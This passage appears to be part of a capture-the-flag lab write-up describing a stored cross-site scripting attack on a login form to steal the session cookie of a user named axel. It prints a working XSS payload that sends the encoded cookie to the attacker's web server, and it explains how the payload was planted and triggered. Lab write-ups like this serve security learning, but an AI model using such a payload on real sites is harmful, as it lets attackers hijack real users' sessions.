 ## Cross-Site Scripting (XSS)

### Stealing Session Cookie

After investigating the code we started with the `Cross-Site Scripting (XSS)` attack to `steal` the `cookie` of `axel`.

- [https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/03_web_application_analysis.md#cookie-stealing](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/03_web_application_analysis.md#cookie-stealing)

Our prepared `payload` was build to `send back` to `cookie` to our local `Python web server`.

```c
<script>fetch('http://10.10.14.47/x?cookie=' + btoa(document.cookie))</script>
```

We entered the `payload` as `username` with a random `email address` and `password` and logged in using the `payload` as `username`.

![](images/2025-02-02_12-25_80_website_xss_login.png)

After that we filled out the values and `uploaded` a random cat picture to trigger the `client-side` part and make `axel` whatever he was designed to do.
